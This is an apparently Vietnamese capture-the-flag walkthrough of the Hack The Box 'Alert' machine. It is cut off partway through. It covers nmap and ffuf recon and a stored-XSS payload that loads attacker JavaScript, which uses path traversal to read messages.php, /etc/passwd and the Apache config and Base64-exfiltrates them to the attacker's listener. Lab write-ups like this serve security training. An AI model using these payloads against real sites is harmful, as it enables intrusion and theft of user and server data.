





<p align="center"></p>

# Alert Hackthebox
## nmap, ffuf, XSS, nc, python3, PHP, hashcat, ssh, monitor
### Nmap
```
nmap -sCV -Pn 10.10.11.44 -oA nmap/output
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
PORT
STATE SERVICE VERSION
22/tcp open
ssh
OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol
2.0)
| ssh-hostkey:
|3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp open
http
Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://alert.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</pre>
### Thêm domain file /etc/hosts 
```
echo "10.10.11.44
alert.htb" |sudo tee -a /etc/hosts
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
10.10.11.44 alert.htb
</pre>
<p align="center"></p>

### Điều tra tìm kiếm thư mục hoạt động

```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u "http://alert.htb/FUZZ" -ic
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://alert.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

css                     [Status: 301, Size: 304, Words: 20, Lines: 10, Duration: 203ms]
messages                [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 203ms]
                        [Status: 302, Size: 660, Words: 123, Lines: 24, Duration: 210ms]
server-status           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 204ms]
</pre>
thấy có `css`, `messages`, `uploads` . Chạy thêm extension fuzzing vs `.php`
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u "http://alert.htb/FUZZ" -ic -e .php
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://alert.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Extensions       : .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 302, Size: 660, Words: 123, Lines: 24, Duration: 211ms]
index.php               [Status: 302, Size: 660, Words: 123, Lines: 24, Duration: 211ms]
.php                    [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 211ms]
contact.php             [Status: 200, Size: 24, Words: 3, Lines: 2, Duration: 1740ms]
uploads                 [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 211ms]
css                     [Status: 301, Size: 304, Words: 20, Lines: 10, Duration: 209ms]
messages                [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 210ms]
messages.php            [Status: 200, Size: 1, Words: 1, Lines: 2, Duration: 211ms]
</pre>
Thấy được thư mục `messages.php` khả năng gửi thông tin về người quản trị thực hiện kiểm tra subdomain của của box
```
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt:FFUZ -H "Host: FFUZ.alert.htb" -u http://alert.htb
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://alert.htb
 :: Wordlist         : FFUZ: /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FFUZ.alert.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

smtp                    [Status: 301, Size: 305, Words: 20, Lines: 10, Duration: 201ms]
ns2                     [Status: 301, Size: 304, Words: 20, Lines: 10, Duration: 202ms]
server                  [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 202ms]
webmail                 [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 202ms]
secure                  [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 202ms]

</pre>
thấy output đều trả ra giống nhau ở body là 20 từ `Words: 20` dùng thêm cờ lọc `-fw` 
```
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt:FFUZ -H "Host: FFUZ.alert.htb" -u http://alert.htb -fw 20
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt:FFUZ -H "Host: FFUZ.alert.htb" -u http://alert.htb -fw 20

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://alert.htb
 :: Wordlist         : FFUZ: /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FFUZ.alert.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 20
________________________________________________

statistics              [Status: 401, Size: 467, Words: 42, Lines: 15, Duration: 206ms]

</pre>
tìm thấy `statistics`
### Thêm statistics.alert.htb vào /etc/hosts
```
sudo sed -i '/10.10.11.44 alert.htb/ s/$/ statistics.alert.htb/' /etc/hosts
```
Tìm kiếm trên mạng được XSS để test site [Here](https://book.hacktricks.wiki/en/pentesting-web/xss-cross-site-scripting/xss-in-markdown.html) 
```
<!-- XSS with regular tags -->
<script>
alert(1)
</script>

```

<p align="center"></p>
Xác nhận môt điều trang web bị XSS

### Sửa payload để pull 1 file về  từ local
```
<script src="http://10.10.14.3:3000/pwned.js"></script>
```
### Netcat lắng nghe cổng 3000
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
netcat -lvnp 3000    
listening on [any] 3000 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.14.3] 33354
GET /pwned.js HTTP/1.1
Host: 10.10.14.3:3000
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: */*
Referer: http://alert.htb/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
</pre>
### Click Share Markdown ta nhận được URL `http://alert.htb/visualizer.php?link_share=67eb632deb9890.87803848.md`
### Sửa payload `pwned.js` 
```
var req = new XMLHttpRequest();
req.open('GET', 'http://alert.htb/messages.php', false);
req.send();
var req2 = new XMLHttpRequest();
req2.open('GET', 'http://10.10.14.3:3000/?content=' + btoa(req.responseText),
true);
req2.send();
```
### Tạo http server để  pull `pwned.js` về
```
python3 -m http.server 3000
```
Payload ở trên sẽ gửi request GET đến trang messages.php, lấy nội dung của nó và sau đó mã hóa phản hồi bằng Base64. Content được mã hóa được gửi đến máy chủ của local thông qua một
yêu cầu GET khác. Thực hiện giải mã
<p align="center"></p>
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
Serving HTTP on 0.0.0.0 port 3000 (http://0.0.0.0:3000/) ...
10.10.14.3 - - [01/Apr/2025 14:35:43] "GET /pwned.js HTTP/1.1" 200 -
10.10.14.3 - - [01/Apr/2025 14:35:44] "GET /?content=Cg== HTTP/1.1" 200 -
10.10.11.44 - - [01/Apr/2025 14:36:06] "GET /pwned.js HTTP/1.1" 200 -
10.10.11.44 - - [01/Apr/2025 14:36:06] "GET /?content=PGgxPk1lc3NhZ2VzPC9oMT48dWw+PGxpPjxhIGhyZWY9J21lc3NhZ2VzLnBocD9maWxlPTIwMjQtMDMtMTBfMTUtNDgtMzQudHh0Jz4yMDI0LTAzLTEwXzE1LTQ4LTM0LnR4dDwvYT48L2xpPjwvdWw+Cg== HTTP/1.1" 200 -
</pre>

### Decode Base64
```
echo "PGgxPk1lc3NhZ2VzPC9oMT48dWw+PGxpPjxhIGhyZWY9J21lc3NhZ2VzLnBocD9maWxlPTIwMjQtMDMtMTBfMTUtNDgtMzQudHh0Jz4yMDI0LTAzLTEwXzE1LTQ4LTM0LnR4dDwvYT48L2xpPjwvdWw+Cg==" | base64 -d
```
```
<h1>Messages</h1><ul><li><a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a></li></ul>
```

### Thử test xem đọc được được file /etc/passwd
```
var req = new XMLHttpRequest();
req.open('GET', 'http://alert.htb/messages.php?file=../../../../../etc/passwd',false);
req.send();
var req2 = new XMLHttpRequest();
req2.open('GET', 'http://10.10.14.3:3000/?content=' + btoa(req.responseText),true);
req2.send();
```
Sau khi gửi payload như các bước trên ta có output
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
python3 -m http.server 3000
Serving HTTP on 0.0.0.0 port 3000 (http://0.0.0.0:3000/) ...
10.10.11.44 - - [01/Apr/2025 15:35:36] "GET /pwned.js HTTP/1.1" 200 -
10.10.11.44 - - [01/Apr/2025 15:35:37] "GET /?content=PHByZT5yb290Ong6MDowOnJvb3Q6L3Jvb3Q6L2Jpbi9iYXNoCmRhZW1vbjp4OjE6MTpkYWVtb246L3Vzci9zYmluOi91c3Ivc2Jpbi9ub2xvZ2luCmJpbjp4OjI6MjpiaW46L2JpbjovdXNyL3NiaW4vbm9sb2dpbgpzeXM6eDozOjM6c3lzOi9kZXY6L3Vzci9zYmluL25vbG9naW4Kc3luYzp4OjQ6NjU1MzQ6c3luYzovYmluOi9iaW4vc3luYwpnYW1lczp4OjU6NjA6Z2FtZXM6L3Vzci9nYW1lczovdXNyL3NiaW4vbm9sb2dpbgptYW46eDo2OjEyOm1hbjovdmFyL2NhY2hlL21hbjovdXNyL3NiaW4vbm9sb2dpbgpscDp4Ojc6NzpscDovdmFyL3Nwb29sL2xwZDovdXNyL3NiaW4vbm9sb2dpbgptYWlsOng6ODo4Om1haWw6L3Zhci9tYWlsOi91c3Ivc2Jpbi9ub2xvZ2luCm5ld3M6eDo5Ojk6bmV3czovdmFyL3Nwb29sL25ld3M6L3Vzci9zYmluL25vbG9naW4KdXVjcDp4OjEwOjEwOnV1Y3A6L3Zhci9zcG9vbC91dWNwOi91c3Ivc2Jpbi9ub2xvZ2luCnByb3h5Ong6MTM6MTM6cHJveHk6L2JpbjovdXNyL3NiaW4vbm9sb2dpbgp3d3ctZGF0YTp4OjMzOjMzOnd3dy1kYXRhOi92YXIvd3d3Oi91c3Ivc2Jpbi9ub2xvZ2luCmJhY2t1cDp4OjM0OjM0OmJhY2t1cDovdmFyL2JhY2t1cHM6L3Vzci9zYmluL25vbG9naW4KbGlzdDp4OjM4OjM4Ok1haWxpbmcgTGlzdCBNYW5hZ2VyOi92YXIvbGlzdDovdXNyL3NiaW4vbm9sb2dpbgppcmM6eDozOTozOTppcmNkOi92YXIvcnVuL2lyY2Q6L3Vzci9zYmluL25vbG9naW4KZ25hdHM6eDo0MTo0MTpHbmF0cyBCdWctUmVwb3J0aW5nIFN5c3RlbSAoYWRtaW4pOi92YXIvbGliL2duYXRzOi91c3Ivc2Jpbi9ub2xvZ2luCm5vYm9keTp4OjY1NTM0OjY1NTM0Om5vYm9keTovbm9uZXhpc3RlbnQ6L3Vzci9zYmluL25vbG9naW4Kc3lzdGVtZC1uZXR3b3JrOng6MTAwOjEwMjpzeXN0ZW1kIE5ldHdvcmsgTWFuYWdlbWVudCwsLDovcnVuL3N5c3RlbWQ6L3Vzci9zYmluL25vbG9naW4Kc3lzdGVtZC1yZXNvbHZlOng6MTAxOjEwMzpzeXN0ZW1kIFJlc29sdmVyLCwsOi9ydW4vc3lzdGVtZDovdXNyL3NiaW4vbm9sb2dpbgpzeXN0ZW1kLXRpbWVzeW5jOng6MTAyOjEwNDpzeXN0ZW1kIFRpbWUgU3luY2hyb25pemF0aW9uLCwsOi9ydW4vc3lzdGVtZDovdXNyL3NiaW4vbm9sb2dpbgptZXNzYWdlYnVzOng6MTAzOjEwNjo6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5c2xvZzp4OjEwNDoxMTA6Oi9ob21lL3N5c2xvZzovdXNyL3NiaW4vbm9sb2dpbgpfYXB0Ong6MTA1OjY1NTM0Ojovbm9uZXhpc3RlbnQ6L3Vzci9zYmluL25vbG9naW4KdHNzOng6MTA2OjExMTpUUE0gc29mdHdhcmUgc3RhY2ssLCw6L3Zhci9saWIvdHBtOi9iaW4vZmFsc2UKdXVpZGQ6eDoxMDc6MTEyOjovcnVuL3V1aWRkOi91c3Ivc2Jpbi9ub2xvZ2luCnRjcGR1bXA6eDoxMDg6MTEzOjovbm9uZXhpc3RlbnQ6L3Vzci9zYmluL25vbG9naW4KbGFuZHNjYXBlOng6MTA5OjExNTo6L3Zhci9saWIvbGFuZHNjYXBlOi91c3Ivc2Jpbi9ub2xvZ2luCnBvbGxpbmF0ZTp4OjExMDoxOjovdmFyL2NhY2hlL3BvbGxpbmF0ZTovYmluL2ZhbHNlCmZ3dXBkLXJlZnJlc2g6eDoxMTE6MTE2OmZ3dXBkLXJlZnJlc2ggdXNlciwsLDovcnVuL3N5c3RlbWQ6L3Vzci9zYmluL25vbG9naW4KdXNibXV4Ong6MTEyOjQ2OnVzYm11eCBkYWVtb24sLCw6L3Zhci9saWIvdXNibXV4Oi91c3Ivc2Jpbi9ub2xvZ2luCnNzaGQ6eDoxMTM6NjU1MzQ6Oi9ydW4vc3NoZDovdXNyL3NiaW4vbm9sb2dpbgpzeXN0ZW1kLWNvcmVkdW1wOng6OTk5Ojk5OTpzeXN0ZW1kIENvcmUgRHVtcGVyOi86L3Vzci9zYmluL25vbG9naW4KYWxiZXJ0Ong6MTAwMDoxMDAwOmFsYmVydDovaG9tZS9hbGJlcnQ6L2Jpbi9iYXNoCmx4ZDp4Ojk5ODoxMDA6Oi92YXIvc25hcC9seGQvY29tbW9uL2x4ZDovYmluL2ZhbHNlCmRhdmlkOng6MTAwMToxMDAyOiwsLDovaG9tZS9kYXZpZDovYmluL2Jhc2gKPC9wcmU+Cg== HTTP/1.1" 200 -
</pre>

### Decode
```
echo "PHByZT5yb290Ong6MDowOnJvb3Q6L3Jvb3Q6L2Jpbi9iYXNoCmRhZW1vbjp4OjE6MTpkYWVtb246L3Vzci9zYmluOi91c3Ivc2Jpbi9ub2xvZ2luCmJpbjp4OjI6MjpiaW46L2JpbjovdXNyL3NiaW4vbm9sb2dpbgpzeXM6eDozOjM6c3lzOi9kZXY6L3Vzci9zYmluL25vbG9naW4Kc3luYzp4OjQ6NjU1MzQ6c3luYzovYmluOi9iaW4vc3luYwpnYW1lczp4OjU6NjA6Z2FtZXM6L3Vzci9nYW1lczovdXNyL3NiaW4vbm9sb2dpbgptYW46eDo2OjEyOm1hbjovdmFyL2NhY2hlL21hbjovdXNyL3NiaW4vbm9sb2dpbgpscDp4Ojc6NzpscDovdmFyL3Nwb29sL2xwZDovdXNyL3NiaW4vbm9sb2dpbgptYWlsOng6ODo4Om1haWw6L3Zhci9tYWlsOi91c3Ivc2Jpbi9ub2xvZ2luCm5ld3M6eDo5Ojk6bmV3czovdmFyL3Nwb29sL25ld3M6L3Vzci9zYmluL25vbG9naW4KdXVjcDp4OjEwOjEwOnV1Y3A6L3Zhci9zcG9vbC91dWNwOi91c3Ivc2Jpbi9ub2xvZ2luCnByb3h5Ong6MTM6MTM6cHJveHk6L2JpbjovdXNyL3NiaW4vbm9sb2dpbgp3d3ctZGF0YTp4OjMzOjMzOnd3dy1kYXRhOi92YXIvd3d3Oi91c3Ivc2Jpbi9ub2xvZ2luCmJhY2t1cDp4OjM0OjM0OmJhY2t1cDovdmFyL2JhY2t1cHM6L3Vzci9zYmluL25vbG9naW4KbGlzdDp4OjM4OjM4Ok1haWxpbmcgTGlzdCBNYW5hZ2VyOi92YXIvbGlzdDovdXNyL3NiaW4vbm9sb2dpbgppcmM6eDozOTozOTppcmNkOi92YXIvcnVuL2lyY2Q6L3Vzci9zYmluL25vbG9naW4KZ25hdHM6eDo0MTo0MTpHbmF0cyBCdWctUmVwb3J0aW5nIFN5c3RlbSAoYWRtaW4pOi92YXIvbGliL2duYXRzOi91c3Ivc2Jpbi9ub2xvZ2luCm5vYm9keTp4OjY1NTM0OjY1NTM0Om5vYm9keTovbm9uZXhpc3RlbnQ6L3Vzci9zYmluL25vbG9naW4Kc3lzdGVtZC1uZXR3b3JrOng6MTAwOjEwMjpzeXN0ZW1kIE5ldHdvcmsgTWFuYWdlbWVudCwsLDovcnVuL3N5c3RlbWQ6L3Vzci9zYmluL25vbG9naW4Kc3lzdGVtZC1yZXNvbHZlOng6MTAxOjEwMzpzeXN0ZW1kIFJlc29sdmVyLCwsOi9ydW4vc3lzdGVtZDovdXNyL3NiaW4vbm9sb2dpbgpzeXN0ZW1kLXRpbWVzeW5jOng6MTAyOjEwNDpzeXN0ZW1kIFRpbWUgU3luY2hyb25pemF0aW9uLCwsOi9ydW4vc3lzdGVtZDovdXNyL3NiaW4vbm9sb2dpbgptZXNzYWdlYnVzOng6MTAzOjEwNjo6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5c2xvZzp4OjEwNDoxMTA6Oi9ob21lL3N5c2xvZzovdXNyL3NiaW4vbm9sb2dpbgpfYXB0Ong6MTA1OjY1NTM0Ojovbm9uZXhpc3RlbnQ6L3Vzci9zYmluL25vbG9naW4KdHNzOng6MTA2OjExMTpUUE0gc29mdHdhcmUgc3RhY2ssLCw6L3Zhci9saWIvdHBtOi9iaW4vZmFsc2UKdXVpZGQ6eDoxMDc6MTEyOjovcnVuL3V1aWRkOi91c3Ivc2Jpbi9ub2xvZ2luCnRjcGR1bXA6eDoxMDg6MTEzOjovbm9uZXhpc3RlbnQ6L3Vzci9zYmluL25vbG9naW4KbGFuZHNjYXBlOng6MTA5OjExNTo6L3Zhci9saWIvbGFuZHNjYXBlOi91c3Ivc2Jpbi9ub2xvZ2luCnBvbGxpbmF0ZTp4OjExMDoxOjovdmFyL2NhY2hlL3BvbGxpbmF0ZTovYmluL2ZhbHNlCmZ3dXBkLXJlZnJlc2g6eDoxMTE6MTE2OmZ3dXBkLXJlZnJlc2ggdXNlciwsLDovcnVuL3N5c3RlbWQ6L3Vzci9zYmluL25vbG9naW4KdXNibXV4Ong6MTEyOjQ2OnVzYm11eCBkYWVtb24sLCw6L3Zhci9saWIvdXNibXV4Oi91c3Ivc2Jpbi9ub2xvZ2luCnNzaGQ6eDoxMTM6NjU1MzQ6Oi9ydW4vc3NoZDovdXNyL3NiaW4vbm9sb2dpbgpzeXN0ZW1kLWNvcmVkdW1wOng6OTk5Ojk5OTpzeXN0ZW1kIENvcmUgRHVtcGVyOi86L3Vzci9zYmluL25vbG9naW4KYWxiZXJ0Ong6MTAwMDoxMDAwOmFsYmVydDovaG9tZS9hbGJlcnQ6L2Jpbi9iYXNoCmx4ZDp4Ojk5ODoxMDA6Oi92YXIvc25hcC9seGQvY29tbW9uL2x4ZDovYmluL2ZhbHNlCmRhdmlkOng6MTAwMToxMDAyOiwsLDovaG9tZS9kYXZpZDovYmluL2Jhc2gKPC9wcmU+Cg==" | base64 -d 
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
albert:x:1000:1000:albert:/home/albert:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
david:x:1001:1002:,,,:/home/david:/bin/bash
</pre>
### Kiểm tra config Apache 
Sửa `pwned.js`
```
var req = new XMLHttpRequest();
req.open('GET', 'http://alert.htb/messages.php?
file=../../../../../etc/apache2/sites-available/000-default.conf',false);
req.send();
var req2 = new XMLHttpRequest();
req2.open('GET', 'http://10.10.14.3:3000/?content=' + btoa(req.responseText),
true);
req2.send();
```
### Làm tương tự và decode thu được

```
<pre><VirtualHost *:80>
ServerName alert.htb
<SNIP>
<Directory /var/www/statistics.alert.htb>
Options Indexes FollowSymLinks MultiViews
AllowOverride All
AuthType Basic
AuthName "Restricted Area"
AuthUserFile /var/www/statistics.alert.htb/.htpasswd
Require valid-user
</Directory>
ErrorLog ${APACHE_LOG_DIR}/error.log
CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
</pre>
```
### Thấy được path dẫn đến authUser
Sửa `pwned.md`
```
